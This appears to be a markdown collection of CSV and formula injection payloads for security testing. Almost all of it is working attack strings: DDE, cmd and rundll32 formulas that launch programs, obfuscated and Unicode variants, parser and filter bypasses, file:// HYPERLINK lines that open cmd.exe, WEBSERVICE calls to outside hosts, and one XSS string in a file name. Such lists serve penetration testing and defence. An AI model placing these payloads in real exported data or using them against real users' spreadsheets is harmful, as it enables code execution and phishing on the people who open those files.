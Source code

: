 # CSV Injection Payload Collection

This is a curated list of CSV injection payloads used during security testing. The list includes basic to advanced variations, obfuscation tricks, and bypass techniques for different scenarios including formula injection, DDE attacks, and file path abuse.

---

## 🧪 Basic Payloads

```csv
=rundll32|'URL.dll,OpenURL calc'!A
-1-rundll32|'URL.dll,OpenURL calc'!A
=rundll32|'URL.dll,OpenURL notepad'!A
=rundll32|'URL.dll,OpenURL https://google.com'!A1
@SUM(1+1)*cmd|' /C calc'!A0
=cmd|'/C calc'!A1@example.com
=2+5+cmd|' /C calc'!A0
+hack(cmd|'/c calc.exe'!A
=hack/cmd|'/c calc.exe'!A
-2+3+cmd|'/C calc'!A1
-1-cmd|'/C calc'!'A1'
--1-cmd|'/C calc'!'A1'
=cmd|'/C notepad'!'A1'
=cmd|'/C calc'!'A2'
=cmd|'/C mspaint'!'A2'
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```

---

## 🧾 Older Excel Versions

```csv
DDE("cmd";"/C calc";"!A0")A0 
=EXEC("calc.exe")
```

---

## 🛠 rundll32 DLL Variants

```csv
=rundll32|'shell32.dll,ShellExec_RunDLL calc'!A1
=rundll32|'zipfldr.dll,RouteTheCall calc'!A1
=rundll32|'shell32.dll,Control_RunDLL timedate.cpl'!A1
=rundll32|'shell32.dll,Control_RunDLL appwiz.cpl'!A1
```

---

## 🌀 Abnormal Variations

```csv
=cmd|'/c calc'!'a2',
\t=\tc\tm\td\t|'/C notepad'!'A2',
=\ncmd|'/C calc'!A1
"=cmd|'/C calc'!'A1'"
```

---

## 🧩 Parse Breakers & Bypasses

### 🔹 Short Format Bypass

```csv
parsebreaker" ;,=cmd|'/C notepad'!'A1'
parsebreaker",=cmd|'/C notepad'!'A1''" ;,=cmd|'/C notepad'!'A2'
```

### 🔹 Polyglot / WAF Bypass

```csv
=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2',0x0D=cmd|'/C notepad'!'A3';=cmd|'/C notepad'!'A4'=cmd|'/C notepad'!'A5''" ;,=cmd|'/C notepad'!'A6'
=cmd|'/C notepad'!'A0';=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2';-1-cmd|'/C notepad'!'A3';0x0D-1-cmd|'/C notepad'!'A4';=cmd|'/C notepad'!'A5'=cmd|'/C notepad'!'A6''" ;,=cmd|'/C notepad'!'A7'
=cmd|'/C notepad'!'A1';0x09=cmd|'/C notepad'!'A2',\---1-cmd|'/C notepad'!'A3';@cmd|'/C notepad'!'A4'+cmd|'/C notepad'!'A5''" ;,=cmd|'/C notepad'!'A6'
```

---

## 📛 Escaped or Newline Payloads

```csv
\---1-cmd|'/C calc'!'A1'
\t--1-cmd|'/C calc'!'A1'
\"--1-cmd|'/C calc'!'A1'
\n--4-cmd|'/C calc'!'A1'
<TAB>=cmd|'/C notepad'!'A1' 
<CR>=cmd|'/C notepad'!'A1'
```

---

## 🧼 Zero-Width Marker Obfuscation

```csv
\u200B=cmd|' /C calc'!A0
```

---

## ☣️ Dangerous Without Formula

These values can trigger execution by just clicking the cell:

```csv
file:///C:/Windows/System32/calc.exe
```

---

## 🚫 If Pipe (`|`), `cmd`, or Slash (`/`) Are Blocked

```csv
+HYPERLINK("file:///C:/Windows/System32/notepad.exe")
+HYPERLINK(CHAR(34)&file:///C:/Windows/System32/notepad.exe&CHAR(34))
@HYPERLINK(CHAR(34)&"file:///C:/Windows/System32/notepad.exe"&CHAR(34))
=HYPERLINK(T("file:///C:/Windows/System32/cmd.exe"), "ClickMe")
@HYPERLINK(\"file:///C:/Windows/System32/notepad.exe\")
@HYPERLINK(""file:///C:/Windows/System32/notepad.exe"")
=HYPERLINK("http://google.com", "Error: click to fix")
=HYPERLINK("https://google-web-pen-testing.vercel.app/", "Error: click to fix")
+HYPERLINK(\"http:\"&CHAR(47)&CHAR(47)&\"bing.com\"&CHAR(47)&\"payload\")
=WEBSERVICE("http://google.com")
=WEBSERVICE("https://google-web-pen-testing.vercel.app/")
=WEBSERVICE("http://bing.com")
```

---

## 🔢 CHAR() Obfuscation Variants

```csv
@HYPERLINK(CHAR(102)&CHAR(105)&CHAR(108)&CHAR(101)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(67)&CHAR(58)&CHAR(47)&CHAR(87)&CHAR(105)&CHAR(110)&CHAR(100)&CHAR(111)&CHAR(119)&CHAR(115)&CHAR(47)&CHAR(83)&CHAR(121)&CHAR(115)&CHAR(116)&CHAR(101)&CHAR(109)&CHAR(51)&CHAR(50)&CHAR(47)&CHAR(110)&CHAR(111)&CHAR(116)&CHAR(101)&CHAR(112)&CHAR(97)&CHAR(100)&CHAR(46)&CHAR(101)&CHAR(120)&CHAR(101))
@HYPERLINK("file:///C:/Windows/"&CHAR(83)&"ystem32/cmd.exe")
@HYPERLINK("file:///C:"&CHAR(47)&"Windows"&CHAR(47)&"System32"&CHAR(47)&"cmd.exe")
@WEBSERVICE(CHAR(104)&CHAR(116)&CHAR(116)&CHAR(112)&CHAR(115)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(119)&CHAR(119)&CHAR(119)&CHAR(46)&CHAR(103)&CHAR(111)&CHAR(111)&CHAR(103)&CHAR(108)&CHAR(101)&CHAR(46)&CHAR(99)&CHAR(111)&CHAR(109))
=HYPERLINK(CONCAT(CHAR(102),CHAR(105),CHAR(108),CHAR(101),CHAR(58),CHAR(47),CHAR(47),CHAR(47),CHAR(67),CHAR(58),CHAR(47),CHAR(87),CHAR(105),CHAR(110),CHAR(100),CHAR(111),CHAR(119),CHAR(115),CHAR(47),CHAR(83),CHAR(121),CHAR(115),CHAR(116),CHAR(101),CHAR(109),CHAR(51),CHAR(50),CHAR(47),CHAR(99),CHAR(109),CHAR(100),CHAR(46),CHAR(101),CHAR(120),CHAR(101)),"Open Command Prompt")
=T(CHAR(102)&CHAR(105)&CHAR(108)&CHAR(101)&CHAR(58)&CHAR(47)&CHAR(47)&CHAR(47)&CHAR(67)&CHAR(58)&CHAR(47)&CHAR(87)&CHAR(105)&CHAR(110)&CHAR(100)&CHAR(111)&CHAR(119)&CHAR(115)&CHAR(47)&CHAR(83)&CHAR(121)&CHAR(115)&CHAR(116)&CHAR(101)&CHAR(109)&CHAR(51)&CHAR(50)&CHAR(47)&CHAR(99)&CHAR(109)&CHAR(100)&CHAR(46)&CHAR(101)&CHAR(120)&CHAR(101))
=HYPERLINK(G2,"Click Me")
```

---

## 🧠 File Name Exploits

```csv
=HYPERLINK("google.com", "Error: click to fix") .csv
@SUM(1+1)+cmd|' C calc'!A0.jpg
"; alert('XSS');//.jpg
```

---

## 🌐 Unicode / Encoding Bypass

```csv
＝cmd|/C calc!A1
+cmd|/C calc!A1
\xEF\xBB\xBF\t=cmd|'/C calc'!A0
“＝cmd|'/C calc'!A0”
cmd|'/C calc'!A0,?
```

---

## 🧪 Payloads That Break Excel Logic

```csv
1e3
1e4
+1E+9
-123456
```

---

## 📚 Resources

- [HackTricks: CSV/Excel Injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)

---
